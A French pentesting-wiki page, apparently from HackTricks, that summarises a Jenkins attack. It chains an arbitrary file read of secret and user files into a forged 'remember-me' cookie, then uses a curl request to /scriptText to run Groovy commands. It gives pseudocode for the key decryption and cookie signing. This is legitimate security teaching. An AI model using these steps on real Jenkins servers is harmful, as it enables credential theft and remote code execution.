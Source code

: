 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

Dans cet article de blog, il est possible de trouver un excellent moyen de transformer une vulnérabilité d'inclusion de fichier local dans Jenkins en RCE : [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Ceci est un résumé créé par IA de la partie de l'article où la création d'un cookie arbitraire est exploitée pour obtenir RCE en abusant d'une lecture de fichier local jusqu'à ce que j'aie le temps de créer un résumé moi-même :

### Prérequis à l'attaque

- **Exigence de fonctionnalité :** "Se souvenir de moi" doit être activé (paramètre par défaut).
- **Niveaux d'accès :** L'attaquant a besoin de permissions Globales/Lecture.
- **Accès secret :** Capacité à lire à la fois le contenu binaire et textuel de fichiers clés.

### Processus d'exploitation détaillé

#### Étape 1 : Collecte de données

**Récupération des informations utilisateur**

- Accéder à la configuration utilisateur et aux secrets depuis `$JENKINS_HOME/users/*.xml` pour chaque utilisateur afin de rassembler :
- **Nom d'utilisateur**
- **Graine utilisateur**
- **Horodatage**
- **Hash du mot de passe**

**Extraction de la clé secrète**

- Extraire les clés cryptographiques utilisées pour signer le cookie :
- **Clé secrète :** `$JENKINS_HOME/secret.key`
- **Clé maître :** `$JENKINS_HOME/secrets/master.key`
- **Fichier de clé MAC :** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Étape 2 : Forgement de cookie

**Préparation du jeton**

- **Calculer le temps d'expiration du jeton :**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Ajoute une heure au temps actuel
```

- **Concaténer les données pour le jeton :**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**Déchiffrement de la clé MAC**

- **Déchiffrer le fichier de clé MAC :**

```javascript
key = toAes128Key(masterKey)  // Convertir la clé maître en format de clé AES128
decrypted = AES.decrypt(macFile, key)  // Déchiffrer le fichier .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Calcul de la signature**

- **Calculer HMAC SHA256 :**

```javascript
mac = HmacSHA256(token, macKey) // Calculer HMAC en utilisant le jeton et la clé MAC
tokenSignature = bytesToHexString(mac) // Convertir la MAC en chaîne hexadécimale
```

**Encodage du cookie**

- **Générer le cookie final :**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Encoder en base64 les données du cookie
```

#### Étape 3 : Exécution de code

**Authentification de session**

- **Récupérer les jetons CSRF et de session :**
- Faire une requête à `/crumbIssuer/api/json` pour obtenir `Jenkins-Crumb`.
- Capturer `JSESSIONID` de la réponse, qui sera utilisé en conjonction avec le cookie "se souvenir de moi".

**Requête d'exécution de commande**

- **Envoyer une requête POST avec un script Groovy :**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Le script Groovy peut être utilisé pour exécuter des commandes au niveau système ou d'autres opérations dans l'environnement Jenkins.

L'exemple de commande curl fourni démontre comment faire une requête à Jenkins avec les en-têtes et cookies nécessaires pour exécuter du code arbitraire en toute sécurité.

{{#include ../../banners/hacktricks-training.md}}
